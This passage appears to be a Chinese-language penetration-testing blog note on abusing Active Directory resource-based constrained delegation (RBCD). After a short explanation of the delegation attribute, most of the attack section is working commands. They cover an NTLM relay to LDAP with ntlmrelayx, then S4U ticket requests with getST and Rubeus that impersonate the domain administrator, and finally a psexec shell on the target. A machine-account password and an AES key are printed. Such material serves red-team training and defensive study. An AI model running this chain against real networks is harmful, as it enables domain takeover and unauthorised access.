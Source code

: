 ![image-20220223114929696](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220223114929696.png)

### RBCD

基于资源的约束性委派又名RBCD。

配置约束性委派和非约束性委派都需要`SeEnableDelegation`权限。而这个权限一般只有域管才有。为了赋予用户更大的灵活性，微软在`Windows server 2012`中引进基于资源的约束性委派。

> 基于资源的约束委派只能在运行Windows Server 2012 R2和Windows Server 2012的域控制器上配置，但可以在混合模式林中应用。
>

* 配置基于资源的约束性委派，无需`SeEnableDelegation`权限，**只需要对机器具有写属性权限（WriteProperty）。即可配置。**
* `msDS-AllowedToDelegateTo` 变成了 `msDS-AllowedToActOnBehalfOfOtherIdentity`。但是方向相反。参照下图。

也就是说，serviceB上配置`msDS-AllowedToActOnBehalfOfOtherIdentity`的值为serviceA。那么serviceB就信任来自serviceA的委派。也就是下图的**传出信任**与**传入信任**。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220222144349-xcq29ok.png "https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html")



#### Relay

```bash
自动创建一个机器账户，密码随机。需要ldaps。
python3 ntlmrelayx.py -t ldaps://10.10.10.10 -debug --remove-mic --delegate-access  -smb2support
指定机器账户
python3 ntlmrelayx.py -t ldap://10.10.10.10 -debug --remove-mic --delegate-access --escalate-user testpc\$ 
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220222170958-664dzj8.png)

```bash
python3 getST.py -impersonate 'administrator' -spn 'cifs/WEB2.adc.com'  -dc-ip 10.10.10.10 'adc.com/USCJNQTK\$:'
export KRB5CCNAME=administrator.ccache
python3 psexec.py -no-pass -k 'adc.com/administrator@web2.adc.com'
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220222190456-prkusyk.png)

```bash
计算hash
.\Rubeus.exe hash /domain:adc.com /user:USCJNQTK$ /password:"iJ'vp3V>'4De}tf"
请求st
.\Rubeus.exe s4u /user:USCJNQTK$ /aes256:64033274241a7f086ce4254fc8a46072810c021013a546c807bad5421d33f7b6 /impersonateuser:Administrator /msdsspn:host/web2.adc.com /altservice:cifs /domain:adc.com /nowrap /ptt
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220222193840-78dynwb.png)

#### 加域账户
